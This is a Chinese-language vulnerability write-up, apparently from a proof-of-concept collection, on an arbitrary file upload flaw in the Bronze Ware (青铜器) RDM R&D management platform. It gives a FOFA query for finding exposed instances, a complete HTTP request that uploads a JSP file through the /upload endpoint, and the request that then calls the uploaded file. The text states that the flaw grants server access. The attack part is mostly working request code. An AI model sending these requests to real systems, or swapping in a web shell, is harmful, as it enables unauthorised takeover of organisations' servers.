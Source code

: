 # 青铜器RDM研发管理平台upload存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">深圳市青铜器软件系统有限公司,创业团队一直专注于提供产品创新和研发管理整体解决方案。公司在深入研究企业研发管理信息化需求的基础上，开发出针对完全拥有自主知识产权的研发管理软件RDM系列版本。青铜器RDM研发管理平台upload存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 青铜器RDM研发管理平台

# 三、资产测绘
+ fofa`body="/images/rdm.ico"`
+ 特征

![1712747446071-d672a11c-d403-40f5-ac90-89531045ad74.png](./img/uHZ6EwiBMeFVWmE3/1712747446071-d672a11c-d403-40f5-ac90-89531045ad74-317515.png)

# 四、漏洞复现
```java
POST /upload?dir=cmVwb3NpdG9yeQ==&name=ZGVtby5qc3A=&start=0&size=7000 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Cookie: JSESSIONID=AB3CC11444E566879F70BE78C0C518CA
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 260
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="poc.jsp"
Content-Type: application/octet-stream

<%out.println("1234");%>
--00content0boundary00
Content-Disposition: form-data; name="Submit"

Go
--00content0boundary00--
```

![1712747466309-473fb061-9d40-499b-bffc-ddd89079dc84.png](./img/uHZ6EwiBMeFVWmE3/1712747466309-473fb061-9d40-499b-bffc-ddd89079dc84-945013.png)

文件上传位置

```java
GET /repository/000000000/demo.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![1712747538656-73854cfa-7c54-4377-96b2-1f5665114773.png](./img/uHZ6EwiBMeFVWmE3/1712747538656-73854cfa-7c54-4377-96b2-1f5665114773-676572.png)



> 更新: 2024-04-20 22:03:39  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lz5wvm37m8hz8p64>